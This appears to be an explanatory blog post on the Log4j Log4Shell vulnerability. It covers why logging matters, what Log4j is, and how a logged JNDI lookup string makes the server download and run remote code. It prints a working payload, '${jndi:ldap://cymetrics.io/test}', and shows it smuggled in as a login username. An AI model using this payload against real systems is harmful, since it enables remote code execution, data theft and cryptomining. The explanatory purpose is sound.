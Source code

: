 This is the importance of the log. You will have evidence to check when something goes wrong and restore the original situation as much as possible. 

Website developers all know that log is very important, so log is basically necessary. For the backend of the website, it may leave a log when a transaction error occurs, or it may write a log when an unexpected error occurs. It may also use a log to record some fields such as the browser version in the request and those records could be used for internal data analysis for the companies. 

Therefore, log is a very common function. That is why if something goes wrong with this function, the consequences will be very serious. 

## What is Log4j? 

When writing the code for the backend of the website, the engineer could choose different programming languages, such as Python, JavaScript, PHP, or Java, etc., and these programming languages ​​will have some packages specifically for log. In short, someone has helped you to finish writing all the functions, and you just need to use them. 

Java has a very useful log package called Log4j and this package is under the Apache Software Foundation, so the full name is also called Apache Log4j. 

There are many different software and packages under Apache, for example: 

* Apache HTTP Server (the one you see most often) 
* Apache Cassandra 
* Apache Tomcat 
* Apache Hadoop 
* Apache Struts 
* ... 

Apache Server and Apache Log4j are two different things. Whether you use Apache Server or Log4j are two things. 

This time the problematic package is Log4j, and the cause of the problem is the same as I mentioned in the beginning. A rarely known function exists with a security vulnerability. As long as Log4j records something in a specific format when doing the log, it will execute the corresponding program code, just like the “shutdown” board mentioned in the beginning. 

Let’s talk about it in more details. It’s actually not directly executing the code. The specific format looks like this, 

```
${jndi:ldap://cymetrics.io/test}
```

Don’t worry about the words that you don’t understand. You can clearly see that there is something like a URL. Yes, it is a URL. When Log4j records the string of words above, it finds that this string of characters conforms to a specific format. Therefore, it will direct to the URL (cymetrics.io/test) to download the code and then execute it, so this is an RCE (Remote Code Execution) vulnerability. 

Earlier I mentioned that the backend will record many things. Suppose today there is a backend service written in Java, and it uses Log4j to record the accounts that the users failed to log in. I only need to use `${jndi:ldap://cymetrics.io/test}` as a username to do the login and it can trigger the vulnerability of Log4j, and further allow it to execute the code I prepare. 

As long as I can execute the code, I can do many things, such as stealing data from the server, or installing mining software to help me do the mining.  
